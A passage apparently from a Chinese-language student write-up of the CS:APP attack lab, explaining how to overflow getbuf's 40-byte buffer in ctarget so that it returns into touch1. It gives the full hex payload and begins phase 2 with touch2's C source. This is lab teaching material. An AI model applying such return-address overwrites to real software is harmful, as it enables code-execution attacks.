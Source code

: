 我们的任务是让文件ctarget在getbuf()函数返回的时候去执行touch1()的代码。

首先我们看到getbuf()函数的栈空间大小为0x28:

![1596267041687](./imgs/csapp22.png)

再查看touch1()函数的地址：

![1596267081722](./imgs/csapp23.png)

于是我们只需把touch1()的函数地址填在ret的地址上，touch.txt文件如下：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

![1596267286455](./imgs/csapp24.png)

#### phase 2

这一部分需要我们自己写一小段注入代码，在ctarget文件中touch2函数的C代码如下：

```C
1 void touch2(unsigned val)2 {
3 vlevel = 2; /* Part of validation protocol */
4 if (val == cookie) {
5 printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 validate(2);
7 } else {
8 printf("Misfire: You called touch2(0x%.8x)\n", val);
9 fail(2);
10 }
11 exit(0);
12 }
```
